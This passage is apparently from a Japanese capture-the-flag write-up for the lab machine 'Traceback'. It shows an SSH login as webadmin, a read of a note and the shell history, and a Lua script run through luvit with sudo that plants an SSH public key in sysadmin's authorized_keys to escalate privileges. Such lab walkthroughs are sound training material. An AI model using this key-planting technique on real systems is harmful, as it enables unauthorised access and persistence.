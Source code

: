 ```txt
$ ssh -i ~/.ssh/traceback webadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land



Last login: Thu Feb 27 06:29:02 2020 from 10.10.14.3
webadmin@traceback:~$
```

先程の `ls` の結果を見つめ直すと `note.txt`, `.luvit_history` の興味深いファイルが見つかります。
前者の内容は以下です。後者は空でした。

```txt
$ cat /home/webadmin/note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

Lua の練習ツールを `sysadmin` が残してくれたらしいです。

続いてホームディレクトリ内のファイルを順番に見ていると以下のような興味深い履歴が見つかります。

```txt
$ cat /home/webadmin/.bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
rm privesc.lua
logout
```

どうやら `luvit` で権限昇格が出来るようです。
[`luvit`](https://luvit.io/) は Node.js の API を使える Lua の処理系らしいです。
これを使って `sysadmin` に `ssh` 出来るように `/home/sysadmin/.ssh/authorized_keys` の作成を試みます。

以下のコードを `/home/webadmin/privesc.lua` として書きます。キーの内容はクライアントマシンの `~/.ssh/traceback.pub` です。

```lua
local fs = require('fs')

fs.mkdirSync('/home/sysadmin/.ssh')

local pubkey = 'ssh-rsa xxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxx@xxxxxxxxxxxxxxxx'
fs.writeFileSync('/home/sysadmin/.ssh/authorized_keys', pubkey)
```

これを `.bash_history` に従って以下のように実行すると無事に正常終了します。
